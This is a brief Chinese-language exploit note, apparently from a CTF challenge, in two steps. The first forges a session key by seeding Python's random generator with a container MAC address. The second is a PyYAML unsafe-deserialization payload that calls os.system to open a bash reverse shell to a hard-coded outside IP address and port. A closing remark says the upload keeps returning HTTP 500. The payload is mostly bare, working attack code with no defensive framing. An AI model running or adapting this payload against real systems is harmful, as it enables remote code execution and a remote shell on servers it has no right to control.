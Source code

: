 1.   伪造session

     ```
     import random,uuid
     
     random.seed(int("02:42:ac:02:48:6d".replace(":",""),16))
     print(str(random.random()*233))
     
     
     
     ```

2.   yaml 反序列化

     ```yaml
     !!python/object/new:str
     	args: []
     	state: !!python/tuple
     	  - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/115.236.153.174/16806 <&1\"')"
     	  - !!python/object/new:staticmethod
     		args: []
     		state:
     		  update: !!python/name:eval
     		  items: !!python/name:list
     ```

     上传文件反序列化一直500

